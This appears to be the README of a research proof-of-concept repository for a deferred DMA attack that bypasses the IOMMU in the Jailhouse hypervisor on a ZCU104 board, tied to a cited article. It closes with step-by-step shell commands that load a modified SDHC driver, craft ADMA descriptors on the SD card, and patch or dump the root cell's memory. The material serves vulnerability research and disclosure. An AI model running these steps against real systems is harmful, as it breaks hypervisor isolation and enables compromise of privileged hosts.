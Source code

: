 ## Deferred DMA attack bypassing the IOMMU in dynamic hypervisors

#### Organization:

- **test_env/**: Configs and steps for building an environment for testing the attack (based on Jailhouse hypervisor). The environment targets <u>Zynq UltraScale+ MPSoCs (ZCU104)</u> platforms. For more information for building the environment in which the attack was achieved refers to **test_env/build_env.md**. 
- **sdhci.c/**: Modified SDHC driver used to carry out the attack (run in the attacking VM that controls the SDHC).
- **hw_debug/**: Hardware debugger scripts for debugging Jailhouse hypervisor and the VMs (OS awareness & Hypervisor awareness). These scripts are to be used with Trace32 and a Lauterbach PowerDebug PRO JTAG hardware debugger. The scripts are used to observe the SDHC control registers, MMU and SMMU page tables and confirm the effectiveness of the attack. Yet, the use of the hardware debugger is not essential for verifying the success of the attack, although it facilitates this.
- **demos/**: Demonstration videos of the attack. Each step of the attack is shown (and explained on two of these demos). The success of the attack is demonstrated by crashing the root cell and through a view of the root cell memory via the hardware debugger.


#### Principle of the attack

In some hypervisors, DMA-capable devices can be  remapped to the memory of another entity, particularly the host  hypervisor or a privileged VM. This can happen, for instance, if the VM  that controlled the DMA-capable device is destroyed. In that case, the DMA-capable device is unmapped from the memory of the VM and may be remapped to the memory of another VM or the host hypervisor. A device driver running in a VM could introduce a  substantial delay between the time it sends a command to the device and  the time when the device performs DMA. This delay can be exploited by a  malicious VM to instruct the device to perform a DMA operation **after the device has been remapped to the host  hypervisor or a privileged VM through the IOMMU.** As a  result, the attack enables a malicious VM, by leveraging the DMA  capabilities of one of its assigned I/O devices, to bypass the access  control ensured by the IOMMU and break the isolation provided by the hypervisor.

### Implementation of the attack 

---

This repository contains an implementation of the attack using a DMA-capable SD Host Controller used to access a SD card. It contains the modified SDHC driver used to carry out the attack. This repository also contains all artifacts and building steps for building Jailhouse hypervisor and the VMs, providing a suitable environment for testing the attack on a Zynq UltraScale+ MPSoCs (ZCU104) platform. In this environment an unrpivileged VM (cell) has direct access to a SD card through a SDHC. With the modified SDHC driver, it leverages the SDHC to carry out the described DMA attacks and patch the privileged VM (root cell) form which the hypervisor is controlled. 

**Typical attack scenario:**

1. The malicious VM sends a command to the SDHC with its modified SDHC driver

2. The delayed is introduced and the SDHC will perform the malicious DMA operation after some time (seconds, minutes...)

3. Meanwhile, the malicious VM is destroyed and the SDHC is remapped to the privileged VM (root cell)

4. The SDHC finally performs the malicious DMA operations which succeeds as the device was remapped to the privileged VM (root cell) memory 

   *NB: If the malicious was not destroyed, it can stops the SDHC and sends the command again*

The attack has been tested on Jailhouse but may be applicable on other dynamic hypervisor depending mainly on the above requirements:

**Requirements for attack applicability with an SDHC:** 

- 1:1 mapping of the SDHC memory through the IOMMU/SMMU (IOVA=PA)
- The SDHC can be dynamically remapped from the attacking VM to a targeted VM or entity (e.g, host, hypervisor...)

For more information regarding the applicability of the attack, please refers to the related article "*Deferred DMA Attack: A Threat for Bypassing the IOMMU in Dynamic Hypervisor*"

### Attack steps in the VM

----

```bash
#Insert the modified SDHC driver
insmod /lib/modules/6.6.40/kernel/drivers/mmc/host/sdhci.ko
insmod /lib/modules/6.6.40/kernel/drivers/mmc/host/sdhci-pltfm.ko
insmod /lib/modules/6.6.40/kernel/drivers/mmc/host/sdhci-of-arasan.ko

#Create a file that contains the target memory region in the root cell's memory to be dumped/patched
#Ex: \x23\x00\x22\x11\xdd\xcc\xbb\xaa to patch 0x1122 bytes at address 0xaabbccdd)
echo -n -e '\x23\x00\x16\x10\x00\x00\x21\x00'  > target

#Create a file that contains your payload (for patching the root cell's)
echo -n -e INSERT_YOUR_PAYLOAD_1234 > payload

#Request a descriptor table (of a size of 512 pages in that case) and print the physical address of the descriptor table
echo -n -e '512'  > /sys/devices/platform/ff170000.mmc/request_desc_table

#Prepare a partition on the SD card for the attack. /dev/mmcblk0p2 must be adapted to your case
#The address field of the descriptor (i.e., \x00\x00\xb0\x54 in the command below) must be replaced with the address given by request_desc_table. In that case the address given was 0x54b00000

perl -e    '$count=1024; while ($count>0) {
      syswrite(STDOUT, "\x25\x00\x08\x00\x00\x00\xb0\x54",  8);
      $count--;
    }' > /dev/mmcblk0p2

#Copy the malicious DMA instruction to SD card (seek=Number of loop on the descriptor table-1)
dd if=target of=/dev/mmcblk0p2 bs=8 seek=511 count=1 
#Copy the payload to SD card after the malicious buffer descriptor (seek=Number of loop on the descriptor table)
dd if=payload of=/dev/mmcblk0p2 bs=8 seek=512 count=1 

#Prepare the descriptor table in RAM for carrying out the attack
cat /sys/devices/platform/ff170000.mmc/enable_custom_adma
cat /sys/devices/platform/ff170000.mmc/construct_adma_attack

#Run the attack (if= for patching, of= for dumping RAM)
dd if=/dev/mmcblk0p2 bs=64k count=1M

#Then, the VM can be destroyed and the malicious DMA operation will be performed after some time depending on the chosen size of the descriptor table and the number of loop (seek) in the descriptor table
```

